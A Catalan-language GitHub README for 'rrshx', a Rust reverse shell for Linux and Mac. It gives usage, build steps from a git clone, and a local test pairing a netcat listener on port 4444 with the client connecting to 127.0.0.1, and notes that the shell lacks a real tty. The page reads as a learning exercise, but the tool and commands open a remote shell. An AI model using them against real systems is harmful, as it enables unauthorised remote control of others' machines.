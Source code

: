 ## rrshx - Rust Reverse Shell for Linux And Mac 
Que és una Reverse Shell? (https://en.wikipedia.org/wiki/Shell_shoveling)[https://en.wikipedia.org/wiki/Shell_shoveling].

Utilització: **./rrshx [ip] [port]**

Exemple: **./rrshx 127.0.0.1 4444**

**Complilar a partir del codi font**

git clone https://github.com/jc4st3lls/rrshx.git

cd rrshx

cargo build --release 

(a la carpeta bin hi ha una versió compilada)

**Com provar**

Instal.lem Netcat a linux o mac. Un cop instal.lat, en un terminal l'engeguem.
**nc -lvp 4444**

Obrim un altre terminal i executem el binari compilat
**./rrshx 127.0.0.1 4444**

Si volem provar des del codi font **cargo run -- 127.0.0.1 4444**

El que conseguim és una shell en el terminal on hem engegat el netcat. Però, no és un terminal com a tal (tty). Les aplicacions que requereixen d'un terminal (tty) no funcionen correctament. Hem d'entendre que passem streams de dades des del client (rrshx) al servidor (nc).

[https://es.wikipedia.org/wiki/Tty_(Unix](https://es.wikipedia.org/wiki/Tty_(Unix))
[https://es.wikipedia.org/wiki/Emulador_de_terminal](https://es.wikipedia.org/wiki/Emulador_de_terminal)


Per solventar aquest problema, hi ha diferents tècniques. Deixo enllaç que us pot ajudar.


